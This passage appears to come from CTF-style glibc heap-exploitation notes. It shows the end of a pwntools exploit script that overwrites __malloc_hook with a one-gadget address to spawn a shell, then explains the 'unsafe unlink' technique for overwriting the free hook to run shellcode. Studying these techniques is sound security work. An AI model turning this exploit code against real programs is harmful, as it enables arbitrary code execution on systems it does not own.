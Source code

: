 ```python
malloc(0x58, b'-p\x00')
#malloc(0x58, b'f'*0x58)
#malloc(0x58, b'g'*0x58)
malloc(0x58, b'-s\x00')
""" 
write to main_arena
"""
# byte \x00 ensure not ovewrite to other fastbins
malloc(0x58, b'\x00'*48 + p64(libc.sym['__malloc_hook'] - 35))

malloc(0x28, p8(0)*19 + p64(libc.address + 0xe1fa1))

malloc(0x18, b'')

io.interactive()
```


## Unsafe unlink

### Overall
![image](https://hackmd.io/_uploads/HJQPakuSC.png)



- ***During chunk consolidation*** the chunk already ***linked into a free list is unlinked from that list*** via the unlink macro. The unlinking process is a reflected ***WRITE*** using the ***chunk’s forward (fd) and backward (bk) pointers***
    - The victim bk is copied over the bk of the chunk pointed to by the victim fd.
    - The victim fd is written over the fd of the chunk pointed to by the victim bk. 
    - If a chunk with designer controlled fd & bk pointers is unlinked, this write can be manipulated. 
- One way to achieve this is via an ***overflow into a chunk’s size field***, which is used to ***CLEAR*** ***its prev_inuse bit***. When the chunk with the clear prev_inuse bit is freed, malloc will attempt to ***consolidate it backwards***. A designer-supplied prev_size field can aim this consolidation attempt at an allocated chunk where counterfeit fd & bk pointers reside. 
- For example
    - Request chunks A & B, chunk A overflows into chunk B’s size field and chunk B is outside fastbin size range. 
    - Prepare counterfeit fd & bk pointers within chunk A, the fd points at the free hook – 0x18 and the bk points to shellcode prepared elsewhere. 
    - Prepare a prev_size field for chunk B that would cause a backward consolidation attempt to operate on the counterfeit fd & bk. 
    - Leverage the overflow to clear chunk B’s prev_inuse bit. 
- When chunk B is freed the ***clear prev_inuse bit*** in its size field causes malloc to ***read chunk B’s prev_size field and unlink the chunk that many bytes behind it***. When the unlink macro operates on the counterfeit fd & bk pointers, it **writes the address of the shellcode to the free hook and the address of the free hook – 0x18 into the 3rd quadword of the shellcode.** 
    - The shellcode can use a jump instruction to skip the bytes corrupted by the fd. 
    
**Triggering a call to free() executes the shellcode.** 

